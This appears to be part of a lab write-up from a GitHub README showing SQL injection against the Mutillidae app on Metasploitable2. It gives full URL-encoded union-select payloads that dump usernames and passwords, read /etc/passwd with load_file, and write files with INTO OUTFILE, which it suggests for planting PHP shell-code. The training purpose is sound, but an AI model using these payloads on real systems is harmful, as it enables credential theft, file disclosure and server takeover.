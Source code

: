 ![z24](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/7c669216-b074-4d1f-a533-e70ab45aece6)




Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details 

![z25](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/f19e0481-f43a-46ee-a47d-72631a246290)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 

![z25](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/f19e0481-f43a-46ee-a47d-72631a246290)

![z27](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/298a3eb7-3334-468f-868e-0234959f2401)



the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
